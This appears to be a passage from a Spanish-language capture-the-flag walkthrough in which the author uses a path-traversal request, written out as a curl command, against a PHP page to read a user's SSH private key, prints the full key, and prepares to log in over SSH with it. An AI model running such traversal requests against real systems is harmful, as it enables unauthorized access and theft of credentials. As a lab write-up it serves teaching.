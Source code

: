 Veremos que funciona, por lo que ahora vamos a probar a intentar visualizar la clave `PEM` del usuario `p4l4nc4` a ver si lo conseguimos.

```shell
curl 'http://<IP>/n3gr4/m414nj3.php?page=../../../../../../../home/p4l4nc4/.ssh/id_rsa'
```

Info:

```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAACmFlczI1Ni1jdHIAAAAGYmNyeXB0AAAAGAAAABCvTRnNli
2HLc7wYB9S1mbCAAAAEAAAAAEAAAEXAAAAB3NzaC1yc2EAAAADAQABAAABAQCrXZ98DYMr
n/f74/g82lqDkMHkyocXGXn8VaP/N7vD9j5mLSr1uhKGBbxcVm4uGP9k//mmRKlewRl/MZ
nTg0N8MP9vp0O2B9vrwHLz9JekTblv93/VCDpJS78CGkNNOVMRcv2ZB3w7uFm6zxRZxQmH
5HaRNuf795GQSFjybiqmN7Mu78bG/94aQMZZLALYmoyMCYWXGvvHpxRN1dwNsT7If4aNBE
l1HXVrZY1biDOrpJQ7O+eZpD4IKs5/QgKL6w9nBczVcGKkvyms98A5qTa/F43+1CxQE2ng
wPiejJEeJZ0PEkQu3nZTK1k7WpJzVnhpqbHGlwKWbfvMKh27Y2gpAAADwI6Nr+vLoXaEJy
SIRrVjIYFz/C3B17pmpx+lmupFfU6ruVHLE92gweyr9wAd5lxhKX1I6BClhlEoDWkzEBCT
H/4zg2tj84+hzhdVWUy6KaCVbRbuvJYWQNWY4kgfk/3FTnSJFHd+k8CZImN3Xa/9DRVLmg
jytzseFr83bPyOyGSze51kJX4r2ljurDvmcnXfQ4j27zUUmwEKi02VvjLngXbmMnIMDLI3
x/pdFxnyZ0w6wnl/Bg+2gvc54Y2ssMblNMw6HZU4K2TN/c3li3A3hLZsN7QwNIV76X5UeP
dWCOngRsImAmMtyxPKZ0rvYwgDimWunQPy0yJXEPdofL6hrAxFZ6y+jnm+gM7x1fnooSkb
9H5RblfwiOtuTD7bmAu6ApNU0Ul3X2YFPnDLFjo/D0Sj5LcsYDQ+XlTNUwnjHpyMy5VzUz
2vDpiscBd7FpFCHf1lS9bfGMLbhOfdM6TPzpjlOmdRizoVjGCZdXsA4Jg05FpvEFa3KHqM
iJOA9yXhHPROYmOwl5Mu+NTPc+Xbiu7B8TJu/BORoOShhbm7+kQpXM7XHPDKTTnJo+qmsI
Pt9FuQF3wZWIXZ48DmRKJKhB+a9LwuE8ES3wUTVqx/EbAs08V6/uiBYZmorJFSgbPd68AE
xKTK9ObilJKSfS2Ik5/iVIBTUxlAt2foAUpWTlXVNmFfBEhRSk48E8NhcgNqctKWpjKf0R
2gi/Dvpect4LoqKPue5zvN0dNlYSiq/6QK6NqJrJdN7DvsvocL+BcWmmv31erlJOo6A3Zw
CEpmnqVzMTroZSBQv3eEsOFS/+RkJ5ffFRpXGfWPh4Dn/Y++n3wbHNNb97pOd9WV+IlhDV
7btvga8cG9xp3zihOIf308VowcpIp0CSlEqZDBpis5jWY9J3N1+uh3pJHFgqmLxKnqLmzu
u15Kh/+nAV6DTBVxrdhq8HoLAvb7ubAq2ICHALC39X12+J0cLOUMi8UWYawMTFgYnO3ZBD
fb6fZaM9Hr97jREiUEG6vgIcNgn6jtJ3EM3ncxTKe2T8SSYn8pFy9Lqf+lvZ8yo9DkaPl5
ORSVWa+jCKhuClPZY5t8VJC9xXGyz8Wah15Y2pg95nGEub7dgmRlQAIiSxjWsDmaDzIBPo
IkZ5lzxoTvvtL2N1+4ZFprPwUN6y6C6zrXbzQp7Ov0bZc2g9fFiNxu1HvR96rwVNFHbeia
OJEM2NZSUU52PExgYtSXwO5aDy70oKiu0pbifoYOm19hlYwYWOOa6s+oW2FG+aXO8WIeEa
muaZDiXw==
-----END OPENSSH PRIVATE KEY-----
```

Veremos que funciona, por lo que vamos a conectarnos mediante la clave `PEM` por `SSH`.

### SSH

> id\_rsa

```
<CONTENIDO_DEL_ID_RSA>
```

```shell
chmod 600 id_rsa
```

Ahora nos conectamos por `SSH` una vez echo todo lo anterior.
